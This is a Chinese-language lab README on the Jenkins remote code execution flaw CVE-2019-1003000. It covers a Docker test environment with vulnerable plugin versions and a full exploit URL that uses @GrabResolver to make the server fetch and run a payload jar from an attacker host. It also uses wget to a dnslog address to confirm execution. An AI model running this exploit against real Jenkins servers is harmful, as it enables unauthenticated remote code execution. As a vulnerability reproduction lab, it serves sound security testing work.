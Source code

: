 #Jenkins 远程代码执行漏洞（CVE-2019-1003000)


## 原理

参考阅读:

https://blog.orange.tw/2019/01/hacking-jenkins-part-1-play-with-dynamic-routing.html
http://blog.orange.tw/2019/02/abusing-meta-programming-for-unauthenticated-rce.html
https://github.com/petercunha/Jenkins-PreAuth-RCE-PoC

## 测试环境搭建
测试环境编译及运行：

```
docker pull her0ma/CVE-2019-1003000
docker run -d -p 8080:8080 her0ma/cve-2019-1003000
```
也可以进入当前文件所在目录，基于Dockerfile文件构建镜像并搭建漏洞环境，操作如下：

1、基于Dockerfile构建镜像

```
docker build -t cve-2019-1003000 .
```
2、下载漏洞插件，下载地址如下：

* Pipeline: Declarative插件1.3.4版本  
https://mirrors.tuna.tsinghua.edu.cn/jenkins/plugins/pipeline-model-definition/1.3.4/pipeline-model-definition.hpi

* Script Security插件1.48版本  
https://mirrors.tuna.tsinghua.edu.cn/jenkins/plugins/script-security/1.48/script-security.hpi
* Pipeline: Groovy插件2.60版本  
https://mirrors.tuna.tsinghua.edu.cn/jenkins/plugins/workflow-cps/2.60/workflow-cps.hpi

3、运行并进入容器，查看初始密码，初始密码位置

```
/var/jenkins_home/secrets/initialAdminPassword
```
4、安装推荐插件，设置管理密码，并登陆管理账号，进入插件管理-高级功能，上传安装上文中下载的三个漏洞插件。

5、安装插件完成之后，选择重启Jenkins。
## 测试过程
### 1、生成执行命令的Jar文件
生成执行命令的jar包所需的文件都在payload目录下，如下：

* Payload.java 执行命令的Java文件源代码，可以根据测试情况修改其中的命令。
* META-INF 目录中保存了执行JAR包所依赖的方法类

执行build.sh文件，编译生成jar包。

### 2、将jar包放到另外一台可访问的web目录下
存在payload-1.jar文件的目录很重要，如：

```
http://Exploit-HOST/package/payload/1/payload-1.jar
http://Exploit-HOST/package/payload/2/payload-2.jar
```

### 3、访问漏洞利用URL，执行命令
具体漏洞测试url如下：

```
http://<TARGET HOST>/securityRealm/user/admin/descriptorByName/org.jenkinsci.plugins.workflow.cps.CpsFlowDefinition/checkScriptCompile
?value=
@GrabConfig(disableChecksums=true)%0a
@GrabResolver(name='payload', root='http://<EXPLOIT HOST>')%0a
@Grab(group='package', module='payload', version='1')%0a
import Payload;
```
EXPLOIT HOST是保存了JAR文件的服务器IP或域名，group、module、version的值对应了该jar文件的存放路径。修改version的值，对应的jar包的访问路径和文件名也需要发生改变。

访问url的时候，成功利用的之后，请求回显如图：

![](4.png)

查看EXPLOIT HOST的web日志，会看到如下记录：

![](1.png)

说明成功请求下载了执行命令的jar文件，进入容器，可以在如下目录中看到对应的jar文件：

![](2.png)

可利用wget dnslog地址的方式来判断是否成功执行了命令，成功的如图：

![](3.png)

